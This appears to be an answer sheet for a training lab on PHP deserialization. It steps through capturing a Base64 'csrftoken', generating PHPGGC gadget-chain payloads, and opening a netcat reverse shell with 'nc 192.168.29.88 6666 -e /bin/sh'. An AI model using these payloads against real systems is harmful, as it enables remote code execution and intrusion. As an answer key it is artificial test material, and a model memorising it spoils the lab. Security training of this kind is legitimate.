

# PHP Deserialization Answersheet

**Step 1:** Navigate to "PHP Website:16664" link.<br />
<kbd>  </kbd>
<br /> <br />


**Step 2:** Provide the necessary information and click on "submit" button.<br />
<kbd>  </kbd>
<br /> <br />


**Step 3:** Capture the request in Burp Suite proxy and observe that the "csrftoken" parameter contains Base64 data.<br />
<kbd>  </kbd>
<br /> <br />


**Step 4:** Decode the value using Base64, and identify the serialized data.<br />
<kbd>  </kbd>
<br /> <br />


**Step 5:** Send request captured in **Step 3** to the Burp Repeater.<br />
<kbd>  </kbd>
<br /> <br />


**Step 6:** Download the PHPGGC utility from the following location to generate the serialised payload using the following command and capture the generated payload.<br />
PHPGGC Location: https://github.com/ambionics/phpggc
```
./phpggc -b slim/rce1 system id
```
<kbd>  </kbd>
<br /> <br />


**Step 7:** Provide the payload generated in **Step 6** in parameter "csrftoken" in request captured in **Step 5** and send the request. Observe that the server responds with the output of command "id". <br />
<kbd>  </kbd>
<br /> <br />


**Step 8:** Start the listener using the following command.<br />
```
nc -nlvp 6666
```
<kbd>  </kbd>
<br /> <br />


**Step 9:** Capture the system IP Address and use that to generate the payload of reverse shell using the following command and capture the payload.<br />
```
./phpggc -b slim/rce1 "nc 192.168.29.88 6666 -e /bin/sh"
```
<kbd>  </kbd>
<br /> <br />


**Step 10:** Provide the payload captured in **Step 9** in the "csrftoken" parameter in **Step 5** and click on "send" button. <br />
<kbd>  </kbd>
<br /> <br />

**Step 11:** A connection will be received on reverse shell. Extract the system information using whoami, uname -a command.<br />
<kbd>  </kbd>
<br /> <br />